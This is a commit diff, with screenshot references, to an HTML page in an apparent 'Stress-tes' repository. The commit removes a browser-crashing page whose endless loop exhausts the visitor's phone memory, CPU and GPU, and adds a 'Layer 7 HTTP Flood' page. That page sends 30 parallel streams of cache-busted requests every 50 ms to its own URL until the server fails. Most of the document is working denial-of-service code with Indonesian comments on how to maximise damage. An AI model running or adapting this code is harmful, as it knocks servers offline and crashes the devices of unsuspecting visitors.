

Before and after one commit to d35996541-blip/Stress-tes, a plain HTML site: page index.html in a window 1280 px wide. Shown: the whole page, without its empty margins (247-1032 px from the left). Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Revamp HTML structure for Layer 7 HTTP Flood monitor
Updated the title and styles for the Layer 7 HTTP Flood monitoring interface. Enhanced the layout and functionality of the UI components.

```diff
--- a/index.html
+++ b/index.html
@@ -3,21 +3,21 @@
 <head>
     <meta charset="UTF-8">
     <meta name="viewport" content="width=device-width, initial-scale=1.0">
-    <title>Void - System Stress Test</title>
-    <link href="https://fonts.googleapis.com/css2?family=Inter:wght@300;400;700&display=swap" rel="stylesheet">
+    <title>Layer 7 HTTP Flood - Live Monitor</title>
+    <link href="https://fonts.googleapis.com/css2?family=Fira+Code:wght@300;500;700&display=swap" rel="stylesheet">
     <style>
-        /* Desain Minimalis, Elegan, dan Bersih */
         :root {
-            --bg: #030303;
-            --text: #ffffff;
-            --accent: #ff2a2a;
+            --bg: #050505;
+            --text: #ff3333;
+            --border: #440000;
+            --glow: rgba(255, 0, 0, 0.4);
         }
 
         * {
             margin: 0;
             padding: 0;
             box-sizing: border-box;
-            font-family: 'Inter', sans-serif;
+            font-family: 'Fira Code', monospace;
             user-select: none;
         }
 
@@ -25,173 +25,271 @@
             background-color: var(--bg);
             color: var(--text);
             height: 100vh;
-            width: 100vw;
-            display: flex;
-            flex-direction: column;
-            justify-content: center;
-            align-items: center;
-            overflow: hidden;
-            transition: background-color 0.8s ease;
-        }
-
-        .container {
-            text-align: center;
-            z-index: 10;
             display: flex;
             flex-direction: column;
             align-items: center;
-        }
-
-        /* Tipografi Elegan */
-        h1 {
-            font-weight: 300;
-            letter-spacing: 12px;
-            font-size: 1.2rem;
-            color: #888;
-            text-transform: uppercase;
-            margin-bottom: 3rem;
-            transition: 0.3s;
-        }
-
-        /* Tombol Eksekusi Minimalis */
-        .btn-kill {
-            background: transparent;
-            color: var(--text);
-            border: 1px solid #333;
-            padding: 18px 50px;
-            font-size: 0.9rem;
-            letter-spacing: 6px;
-            text-transform: uppercase;
-            border-radius: 2px;
-            cursor: pointer;
-            transition: all 0.4s ease;
-            position: relative;
+            justify-content: center;
             overflow: hidden;
         }
 
-        .btn-kill::before {
+        .hud-container {
+            width: 90%;
+            max-width: 700px;
+            border: 1px solid var(--border);
+            background: rgba(10, 0, 0, 0.8);
+            padding: 30px;
+            box-shadow: 0 0 20px var(--glow), inset 0 0 20px rgba(255, 0, 0, 0.1);
+            position: relative;
+        }
+
+        /* Radar Scanner Effect */
+        .hud-container::before {
             content: '';
             position: absolute;
             top: 0; left: 0; width: 100%; height: 100%;
-            background: var(--accent);
-            z-index: -1;
-            transform: scaleX(0);
-            transform-origin: right;
-            transition: transform 0.4s ease;
+            background: repeating-linear-gradient(
+                0deg,
+                transparent,
+                transparent 2px,
+                rgba(255, 0, 0, 0.05) 3px,
+                rgba(255, 0, 0, 0.05) 3px
+            );
+            pointer-events: none;
+            z-index: 2;
         }
 
-        .btn-kill:hover {
-            border-color: var(--accent);
-            box-shadow: 0 0 30px rgba(255, 42, 42, 0.2);
+        .header {
+            text-align: center;
+            border-bottom: 1px solid var(--border);
+            padding-bottom: 15px;
+            margin-bottom: 20px;
         }
 
-        .btn-kill:hover::before {
-            transform: scaleX(1);
-            transform-origin: left;
+        .header h1 {
+            font-size: 1.5rem;
+            letter-spacing: 5px;
+            text-shadow: 0 0 10px var(--text);
         }
 
-        .status {
-            margin-top: 2rem;
-            font-size: 0.7rem;
-            letter-spacing: 3px;
-            color: #444;
+        .target-info {
+            font-size: 0.9rem;
+            color: #888;
+            margin-top: 10px;
         }
 
-        /* Mode Kematian (Death Sequence) */
-        body.death-sequence {
-            background-color: #0a0000;
-            animation: glitch-bg 0.1s infinite;
+        .target-info span { color: #fff; }
+
+        .monitor-grid {
+            display: grid;
+            grid-template-columns: repeat(2, 1fr);
+            gap: 20px;
+            margin-bottom: 30px;
         }
 
-        body.death-sequence h1 {
-            color: var(--accent);
-            letter-spacing: 15px;
-            font-weight: 700;
+        .metric-box {
+            background: rgba(255, 0, 0, 0.05);
+            border: 1px solid var(--border);
+            padding: 15px;
+            text-align: center;
+            position: relative;
         }
 
-        body.death-sequence .btn-kill {
-            opacity: 0;
-            pointer-events: none;
+        .metric-label {
+            font-size: 0.8rem;
+            color: #888;
+            text-transform: uppercase;
+            letter-spacing: 2px;
+            margin-bottom: 10px;
         }
 
-        /* Efek Glitch Visual GPU Stress */
-        .gpu-killer {
-            position: absolute;
-            width: 100vw;
-            height: 50vh;
-            background: rgba(255, 0, 0, 0.1);
-            backdrop-filter: blur(20px) contrast(200%); /* Efek paling berat untuk GPU Mobile */
-            mix-blend-mode: overlay;
-            z-index: 5;
-            pointer-events: none;
+        .metric-value {
+            font-size: 2rem;
+            font-weight: 700;
+            text-shadow: 0 0 10px var(--text);
         }
 
-        @keyframes glitch-bg {
-            0% { filter: invert(0) hue-rotate(0deg); }
-            50% { filter: invert(1) hue-rotate(90deg); transform: translate(2px, -2px); }
-            100% { filter: invert(0) hue-rotate(0deg); }
+        .log-panel {
+            height: 120px;
+            background: #000;
+            border: 1px solid var(--border);
+            padding: 10px;
+            font-size: 0.75rem;
+            color: #aaa;
+            overflow-y: hidden;
+            display: flex;
+            flex-direction: column;
+            justify-content: flex-end;
+            margin-bottom: 20px;
         }
+
+        .log-line {
+            margin: 2px 0;
+        }
+        .log-line.error { color: var(--text); }
+        .log-line.success { color: #555; }
+
+        .btn-strike {
+            width: 100%;
+            background: transparent;
+            color: var(--text);
+            border: 1px solid var(--text);
+            padding: 15px;
+            font-size: 1rem;
+            font-weight: 700;
+            letter-spacing: 4px;
+            cursor: pointer;
+            transition: 0.3s;
+            text-transform: uppercase;
+        }
+
+        .btn-strike:hover, .btn-strike.active {
+            background: var(--text);
+            color: var(--bg);
+            box-shadow: 0 0 20px var(--text);
+        }
+
+        .server-down {
+            position: absolute;
+            top: 50%; left: 50%;
+            transform: translate(-50%, -50%);
+            font-size: 3rem;
+            font-weight: 700;
+            color: #fff;
+            background: rgba(255,0,0,0.9);
+            padding: 20px 40px;
+            border: 2px solid #fff;
+            text-shadow: 0 0 20px #000;
+            box-shadow: 0 0 50px red;
+            display: none;
+            z-index: 10;
+            text-align: center;
+            width: 100%;
+        }
+
+        .blink { animation: blinker 1s linear infinite; }
+        @keyframes blinker { 50% { opacity: 0; } }
     </style>
 </head>
 <body>
 
-    <div class="container">
-        <h1 id="title">System Integrity 100%</h1>
-        <button class="btn-kill" id="executeBtn" onclick="startAssassination()">Execute</button>
-        <div class="status" id="status-text">DEVICE STATUS: OPTIMAL</div>
+    <div class="hud-container">
+        <div class="server-down" id="downAlert">SERVER DOWN<br><span style="font-size:1rem; font-weight:300;">CONNECTION REFUSED</span></div>
+
+        <div class="header">
+            <h1>NETWORK STRESS PROTOCOL</h1>
+            <div class="target-info">TARGET URI: <span id="targetUrl">DETECTING...</span></div>
+        </div>
+
+        <div class="monitor-grid">
+            <div class="metric-box">
+                <div class="metric-label">Requests Sent</div>
+                <div class="metric-value" id="reqCount">0</div>
+            </div>
+            <div class="metric-box">
+                <div class="metric-label">Errors / Dropped</div>
+                <div class="metric-value" id="errCount">0</div>
+            </div>
+        </div>
+
+        <div class="log-panel" id="logPanel">
+            <div class="log-line">> AWAITING COMMAND...</div>
+        </div>
+
+        <button class="btn-strike" id="strikeBtn" onclick="initiateStrike()">INITIATE SELF-DDOS</button>
     </div>
 
     <script>
-        let isDead = false;
-        let memoryBlackhole = []; // Array penampung RAM leak
+        let isAttacking = false;
+        let requests = 0;
+        let errors = 0;
+        let attackIntervals = [];
 
-        function startAssassination() {
-            if (isDead) return;
-            isDead = true;
+        // Target adalah URL website ini sendiri
+        const target = window.location.href.split('?')[0];
+        document.getElementById('targetUrl').innerText = target;
 
-            // 1. Ubah UI menjadi mengerikan secara instan
-            document.body.classList.add('death-sequence');
-            document.getElementById('title').innerText = "FATAL SEQUENCE";
-            document.getElementById('status-text').innerText = "MEMORY CORRUPTION INITIATED...";
-            document.getElementById('status-text').style.color = "#ff2a2a";
+        const logPanel = document.getElementById('logPanel');
 
-            // 2. Suntik elemen perusak GPU ke layar
-            for (let i = 0; i < 50; i++) {
-                let gpuStress = document.createElement('div');
-                gpuStress.className = 'gpu-killer';
-                gpuStress.style.top = (Math.random() * 100) + 'vh';
-                gpuStress.style.transform = `rotate(${Math.random() * 360}deg)`;
-                document.body.appendChild(gpuStress);
+        function log(msg, type = 'success') {
+            const line = document.createElement('div');
+            line.className = `log-line ${type}`;
+            line.innerText = `> ${msg}`;
+            logPanel.appendChild(line);
+            if (logPanel.children.length > 7) {
+                logPanel.removeChild(logPanel.firstChild);
+            }
+        }
+
+        // Fungsi menembak 1 request
+        async function fireRequest() {
+            // Tambah parameter random agar server tidak bisa menggunakan cache
+            const cacheBuster = `?stress=${Math.random().toString(36).substring(7)}`;
+
+            try {
+                // Menggunakan mode no-cors agar browser mengabaikan keamanan lintas origin sementara
+                const response = await fetch(target + cacheBuster, {
+                    method: 'GET',
+                    mode: 'no-cors',
+                    cache: 'no-store'
+                });
+
+                requests++;
+                // Jika request mengembalikan status selain 200-299 atau gagal terhubung
+                if (response.status === 429 || response.status >= 500 || response.type === 'error') {
+                    errors++;
+                    log(`HTTP ${response.status || 'FAIL'} - PAYLOAD DROPPED`, 'error');
+                } else {
+                    if (requests % 10 === 0) log(`PAYLOAD DELIVERED (${requests})`);
+                }
+            } catch (e) {
+                requests++;
+                errors++;
+                log(`CONNECTION REFUSED - TARGET UNREACHABLE`, 'error');
             }
 
-            // Beri jeda 800 milidetik agar user melihat perubahan layar merah,
-            // setelah itu eksekusi sistem secara brutal.
-            setTimeout(() => {
+            updateMonitor();
+        }
 
-                // INI ADALAH KODE PEMBUNUHNYA
-                // While loop (tanpa henti) akan mengunci total HP, layar tidak akan bisa disentuh.
-                // Di dalam loop, kita menimbun array jutaan angka ke dalam RAM.
+        function updateMonitor() {
+            document.getElementById('reqCount').innerText = requests.toLocaleString();
+            document.getElementById('errCount').innerText = errors.toLocaleString();
 
-                while (true) {
-                    try {
-                        // RAM OVERLOAD: Membuat array isi 1 juta data random terus menerus
-                        // Ini akan membuat RAM Android penuh dalam hitungan 1-3 detik.
-                        memoryBlackhole.push(new Array(1000000).fill(Math.random()));
+            // Jika error terlalu banyak, asumsikan server down atau memblokir IP kita
+            if (errors > 150) {
+                declareVictory();
+            }
+        }
 
-                        // CPU BURN: Memaksa CPU menghitung angka berat bersamaan
-                        Math.sqrt(Math.random() * 999999) * Math.tan(Math.random());
+        function initiateStrike() {
+            if (isAttacking) return;
+            isAttacking = true;
 
-                        // GPU OVERLOAD: Menambah elemen DOM tiada henti
-                        let div = document.createElement('div');
-                        document.body.appendChild(div);
+            const btn = document.getElementById('strikeBtn');
+            btn.classList.add('active');
+            btn.innerText = "ATTACK IN PROGRESS...";
+            btn.classList.add('blink');
 
-                    } catch (e) {
-                        // Jika masuk kesini berarti RAM sudah jebol (Out of Memory)
-                        // OS Android akan langsung melakukan Force Close.
-                    }
-                }
+            log("INITIATING LAYER 7 HTTP FLOOD...");
+            log(`LOCKING TARGET: ${target}`);
 
-            }, 800);
+            // Jalankan 30 thread bersamaan yang menembak tanpa jeda
+            for(let i = 0; i < 30; i++) {
+                let interval = setInterval(fireRequest, 50); // Tiap thread menembak setiap 50ms
+                attackIntervals.push(interval);
+            }
+        }
+
+        function declareVictory() {
+            if (!isAttacking) return;
+            // Hentikan tembakan
+            attackIntervals.forEach(clearInterval);
+
+            document.getElementById('strikeBtn').classList.remove('blink');
+            document.getElementById('strikeBtn').innerText = "TARGET NEUTRALIZED";
+
+            // Tampilkan Alert Merah Besar
+            document.getElementById('downAlert').style.display = 'block';
+            log("TARGET IS OFFLINE / RATE LIMITED.", 'error');
         }
     </script>
 </body>
```
